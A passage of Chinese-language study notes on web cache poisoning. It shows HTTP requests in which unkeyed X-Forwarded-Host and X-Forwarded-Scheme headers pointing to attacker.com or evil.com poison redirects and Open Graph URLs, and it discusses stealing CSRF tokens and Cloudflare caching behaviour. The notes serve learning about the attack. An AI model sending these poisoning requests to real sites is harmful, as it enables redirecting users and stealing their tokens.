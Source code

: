這個 input 本身自己也是沒有用處，但我們可以結合這兩個  

```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps

HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en 
```

這樣
- 就有能 redirect POST request，然後從 custom HTTP header 來偷 [CSRF tokens](https://portswigger.net/web-security/csrf/tokens)
  - (CSRF token: 在頁面的 form 或是 custom header 裡面放一個 token 並要求 client request 要夾帶這個 token)
- 還可以結合惡意的 JSON load 來 `stored DOM-based` (像上面 svg 的 case)

### Open Graph Hijacking

另一個案例 `unkeyed input` 影響了 `Open Graph URLs`

```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com

HTTP/1.1 200 OK
Cache-Control: max-age=0, private, must-revalidate
…
<meta property="og:url" content='https://attacker.com/en'/>
```

https://ogp.me/

`Open Graph` 是 FB 創造的 protocol
- 用於讓網站所有者決定在社交媒體上共享他們的內容時會發生什麼
- 在這裡劫持的 `og:url`，因此任何被 share poisoned page 的人實際上都會看到我們選擇的內容

這邊有設定了 `'Cache-Control: private'`
- 而 Cloudflare 拒絕 cache 這類 responses
- 運氣好，有其他網站有採用這 cache


```
GET /popularPage HTTP/1.1
Host: redacted.net
X-Forwarded-Host: evil.com

HTTP/1.1 200 OK
Cache-Control: public, max-age=14400
Set-Cookie: session_id=942…
CF-Cache-Status: MISS
```

`'CF-Cache-Status'` header 表示 Cloudflare 有考慮 cache 這個 response
- 但實際上，response 從來都沒有被 cache
- 推測可能跟 `session_id` cookie 有關
